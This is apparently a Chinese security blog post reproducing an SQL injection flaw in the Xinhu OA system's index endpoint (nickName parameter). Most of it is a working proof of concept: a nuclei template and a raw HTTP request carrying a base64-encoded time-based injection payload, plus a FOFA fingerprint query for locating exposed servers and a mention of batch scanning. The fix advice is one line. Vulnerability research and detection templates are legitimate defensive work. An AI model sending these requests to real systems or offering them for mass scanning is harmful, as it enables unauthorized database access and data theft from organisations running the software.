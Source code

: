 #  信呼OA系统index接口处nickname参数存在SQL注入漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-08-05 15:35  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
信呼OA系统index接口处nickname参数存在SQL注入漏洞。这可能导致泄露敏感数据、破坏数据库完整性，甚至获取对数据库的完全控制。  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: xinhu-index-nickname-SQL

info:
  name: 信呼OA系统index接口处nickname参数存在SQL注入漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: icon_hash="1652488516"

http:
  - raw:
      - |
        GET /index.php?m=openmodhetong|openapi&d=task&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw== HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "duration>=5  && duration<=8 && status_code==200"
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：icon_hash="1652488516"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnf0gzB5c9tViaE1rqhib4t5jCXANZIhiappJQIBgYL94cJeepW0bLPwtWcib52INY8bcd3svicaQiaXX6aA/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnf0gzB5c9tViaE1rqhib4t5jCM0ZT6RTg8FUFU0eA4OZMf45lj0G047NeJd2HP7Pk1jDWupo27z2xHQ/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnf0gzB5c9tViaE1rqhib4t5jCNfSJm7iad76px7FX5B2QcW00e08A5zGWXdS7EaL4fKk8EupSUs7SP3w/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
GET /index.php?m=openmodhetong|openapi&d=task&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw== HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnf0gzB5c9tViaE1rqhib4t5jCiaM2J30OC9wMxzZ3wqEUwXADGWvTyibnhIJmxnibklkQkQBpUE50UCncQ/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
更新当前系统或软件至最新版  
  
  
  
  
